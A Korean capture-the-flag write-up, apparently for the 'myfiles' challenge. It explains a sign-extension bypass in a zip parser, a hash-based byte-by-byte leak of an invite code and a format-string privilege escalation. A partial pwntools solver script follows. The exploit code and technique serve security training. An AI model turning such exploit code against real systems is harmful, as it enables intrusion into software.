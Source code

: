 제목의 길이를 음수로 만들 수 없던 것은  `readZipInfo` 함수의 세 번째 조건문, `v7 = (_DWORD *)(a2 + 26); v6 = *v7; if ( v6 == (__int16)v6 )` 때문입니다. `File name len`이 `0xffff`라고 가정해봅시다. `cwde`에 의해 `eax`가 `0xffffffff`가 되기 때문에 `[rbp-0x14] != eax`가 됩니다. 이를 우회하는 방법은 모순적이게도 `Extra field len`을 사용하는 것입니다. 처음에 `rax`의 형태로 8바이트를 읽어옴을 알 수 있습니다. `rax`가 `0xffffffff`라면 `cwde` 후에도 `0xffffffff`이기 때문에 값이 같습니다. 이렇게 음수 인덱스에 접근할 수 있습니다.

파일 데이터 전에는 고정된 값 9바이트가 존재합니다. 따라서 `File name len + Extra field len`이 변조된 10바이트짜리 zip 파일을 입력하고 해시 값을 받아오면, 마지막 바이트 브루트포싱을 통해 `invitecode.txt`의 내용을 한 글자씩 알아올 수 있습니다.
`invitecode.txt`를 얻었으니 위의 브레인스토밍 과정을 역으로 따라가면 됩니다. 새로운 사용자를 만들고, `FSB`를 유발하는 zip 파일을 업로드하고, 이를 읽어 `admin` 권한을 부여하는 `FSB` payload를 작동하고 `flag`를 읽습니다.

- 솔버

```python
from pwn import *
from tqdm import *
import subprocess

context.bits = 64
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

p = remote('myfiles.chal.irisc.tf', 10001)
#p = process('./chal')

def listfiles(idx : int, idx2 : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'? ', str(idx).encode())
    payload = f"[FID={idx2}]  10 "
    p.recvuntil(payload.encode())
    return p.recvline()[:-1].decode()

def createuser(name : bytes, password : bytes):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'? ', invite_code)
    p.sendlineafter(b'? ', name)
    p.sendlineafter(b'? ', password)

def uploadfile(idx : int, z : bytes):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'uncompressed file', z)

def viewfile(idx : int, password : bytes, idx2 : int):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)
    p.sendlineafter(b'? ', str(idx2).encode())

def viewflag(idx : int, password : bytes):
    p.sendlineafter(b'> ', b'6')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)

def crackhash(h : str):
    v5 = 0xCBF29CE484222325
    for i in range(-9, 0):
        v5 = 0x100000001B3 * (ord(invite_code[i]) ^ v5)

    for i in range(256):
        v6 = (0x100000001B3 * (i ^ v5)) & ((1 << 64) - 1)
        if hex(v6)[2:] == h:
            return chr(i)

start_num = -516 + 14 - 9
tb = bytearray(open('./tb.zip', 'rb').read())
```